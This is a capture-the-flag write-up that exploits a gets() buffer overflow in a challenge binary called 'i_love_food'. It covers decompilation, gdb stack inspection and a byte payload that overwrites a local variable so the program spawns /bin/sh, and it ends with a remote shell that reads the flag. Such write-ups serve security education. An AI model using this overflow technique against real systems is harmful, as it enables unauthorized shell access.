 # I love food !

Subject :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

[This binary](./i_love_food) is given. Let's try it out :

```bash
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

The program is asking for an input, and exiting. Let's explore the code.

## Static analysis

Using ghidra we can find those functions :

```C
undefined8 main(void)
{
  setup();
  vuln();
  return 0;
}

void vuln(void)
{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

We want to execute the command `system("/bin/sh");` in the vuln() function to get a shell. To do so we'll need to pass this condition : `if (local_c == 0xf00df00d)`.  
  
To achieve this, we'll modify the local_c variable by exploiting the gets() function which is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

## Dynamic analysis

Let's find out how many bytes we need to write over before modifying local_c using gdb.  
  
First, we'll add a breakpoint (gdb will stop everytime the program reaches this instruction) after the gets() function is called. To do so, we'll disassemble the vuln() function and look for the instruction calling gets() :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
```

According to our static analysis, the variable used to store the user input is of 44 bytes : `char local_38 [44];`. Let's fill this variable by using python to print 44 characters (we'll use "\x41" which is an `A` in ascii), and then inspect the stack to see how many bytes we need to write over before writing over local_c :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

The rsp (Resgister Stack Pointer) is a register that points to the top of the current stack. So by using the `x/20wx $rsp` instruction, we can inspect the current stack.  
In the stack, we can easily spot the 44 "\x41" we gave to the program, and we can see a 0xdeadbe00 value right next to it. During our static analysis, we found `local_c = 0xdeadbeef;`, which means that the local_c variable is stored right after the user input. Let's write over it by adding "\x0d\xf0\x0d\xf0" after our previous input (being on a [little endian system](https://en.wikipedia.org/wiki/Endianness) we write over memory in reverse) :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
(gdb) continue
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

We can see in the stack that the variable has been modified, and by resuming execution after the breakpoint the program does reach the success message and open another process. Let's test our payload on the binary using the intruction `(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee)` to input our payload, and then freeze the shell before it closes :

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

We successfully opened a shell, so the final payload is : `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Now let's connect to the service and send our payload. To do so, we'll use [this script](./exploit.py) :

```bash
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
